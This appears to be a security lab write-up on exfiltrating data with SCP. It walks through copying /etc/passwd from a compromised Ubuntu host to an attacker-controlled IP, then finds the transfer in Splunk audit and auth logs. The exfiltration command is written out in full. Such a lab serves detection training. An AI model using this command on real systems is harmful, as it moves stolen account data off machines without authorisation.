





# Data Exfiltration via SCP

## Introduction

Data exfiltration is the unauthorized transfer of data from a target system to an external location controlled by an attacker. It is a critical phase in many cyber attacks, 
typically occurring after the attacker has gained access to the target environment. Exfiltrated data can include credentials, configuration files, sensitive documents, and system 
information. Detecting and preventing exfiltration is a key objective in incident response and security monitoring.

## SCP-based Data Exfiltration

SCP (Secure Copy Protocol) is a network protocol that uses SSH to transfer files between hosts. While it is a legitimate and widely-used tool for system administration, 
attackers frequently abuse it to copy sensitive files off a compromised machine. Because SCP traffic is encrypted over SSH, it can blend in with normal administrative activity, 
making it harder to detect through simple network inspection. Monitoring at the host level through audit logs is often necessary to catch such behavior.


## Prerequisites

Before performing SCP-based exfiltration, the attacker must already have access to the target system. This typically involves obtaining valid SSH credentials 
through methods such as phishing, brute force, credential stuffing, or credential dumping. In this lab, SSH access to the target Ubuntu machine is assumed to be established beforehand.


## Steps

### 1. Start and Enable SSH Service on the Attacker Machine

On the attacker machine (Kali Linux), start and enable the SSH service so it can receive incoming SCP transfers. Verify that the service is active and listening on port 22.

```bash
sudo systemctl start ssh
sudo systemctl enable ssh
sudo systemctl status ssh
```




### 2. Execute the SCP Exfiltration from the Target Machine

From the compromised Ubuntu machine, use `scp` to copy the `/etc/passwd` file to the attacker-controlled machine. The command targets the attacker's IP address and transfers 
the file into the attacker's home directory.

```bash
scp /etc/passwd varshith@10.90.106.121:/home/varshith
```

Enter the SSH password for the attacker machine when prompted. A successful transfer will display the filename with no errors.




### 3. Verify the File Received on the Attacker Machine

On the attacker machine, navigate to the home directory and confirm that the `passwd` file has been successfully received.

```bash
pwd
ls
```

The `passwd` file should appear in the listing alongside the standard home directory folders.




### 4. Examine Logs on the Target Machine (Splunk - Auth/Cron Logs)

On the target machine, audit logs capture the activity. In Splunk, filter for events around the time of the attack from `/var/log/audit/audit.log` and `/var/log/auth.log`. 
You will observe `EXECVE`, `SYSCALL`, `LOGIN`, `USER_START`, and `CRED_ACQ` events associated with the `varshith` user and the `sh`/`cron` processes.

Key log fields to look for:
- `type=EXECVE` with `/bin/sh` and encoded argument strings
- `type=SYSCALL` with `syscall=59` (execve) and `comm="sh"`
- `type=LOGIN` showing session initiation for `varshith`
- Source: `/var/log/audit/audit.log`, sourcetype: `linux_audit`




### 5. Examine SCP-Specific Audit Logs on the Target Machine

Filter further in Splunk to isolate events where `a0="scp"`, which captures the exact SCP executions. You will see multiple `EXECVE` and `SYSCALL` events showing:

- `a0="scp"`, `a1="/etc/passwd"`, `a2="varshith@10.90.106.121:/home/varshith"`
- Multiple attempts logged at slightly different timestamps, indicating repeated or retried transfers
- `comm="scp"`, `exe="/usr/bin/scp"`, `AUID="varshith"`, `UID="varshith"`
- Source: `/var/log/audit/audit.log`, sourcetype: `linux_audit`

These entries provide clear forensic evidence of the file transfer, including the source file, destination address, and the user who initiated the command.



The audit trail generated by Linux audit framework provides sufficient evidence to reconstruct the exfiltration event, including the exact command, file, destination, and user account involved.
